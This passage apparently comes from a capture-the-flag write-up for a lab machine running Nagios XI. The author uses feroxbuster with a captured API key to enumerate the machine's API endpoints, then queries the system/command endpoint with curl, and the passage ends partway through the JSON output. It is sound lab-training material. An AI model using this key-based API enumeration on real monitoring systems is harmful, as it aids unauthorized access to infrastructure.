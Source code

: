 

    oxdf@hacky$ feroxbuster -u https://nagios.monitored.htb/nagiosxi/api/v1/system -k --query apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL -w /opt/SecLists/Discovery/Web-Content/api/objects.txt 

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.9.3
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ https://nagios.monitored.htb/nagiosxi/api/v1/system
     🚀  Threads               │ 50
     📖  Wordlist              │ /opt/SecLists/Discovery/Web-Content/api/objects.txt
     👌  Status Codes          │ All Status Codes!
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.9.3
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     🤔  Query Parameter       │ apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
     🏁  HTTP methods          │ [GET]
     🔓  Insecure              │ true
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    200      GET        1l        3w       34c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
    200      GET        1l      113w     6155c https://nagios.monitored.htb/nagiosxi/api/v1/system/command?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
    200      GET        1l        1w      125c https://nagios.monitored.htb/nagiosxi/api/v1/system/info?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
    200      GET        1l        6w      835c https://nagios.monitored.htb/nagiosxi/api/v1/system/status?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
    200      GET        1l        2w      227c https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
    [####################] - 2m      3133/3133    0s      found:4       errors:161    
    [####################] - 2m      3133/3133    22/s    https://nagios.monitored.htb/nagiosxi/api/v1/system/ 



#### command

`command` seemed the most interesting. As a GET, it returns a list of
commands:


    oxdf@hacky$ curl -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/command?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -s | jq .
    [
      {
        "command_id": "40",
        "submitter_id": "1",
        "command": "1132",
        "submission_time": "2023-11-10 14:17:36",
        "event_time": "2023-11-10 14:17:36",
        "processing_time": "2023-11-10 14:17:37",
        "status_code": "1",
        "result_code": "0",
        "result": null
      },
      {
        "command_id": "65",
        "submitter_id": "4",
        "command": "1132",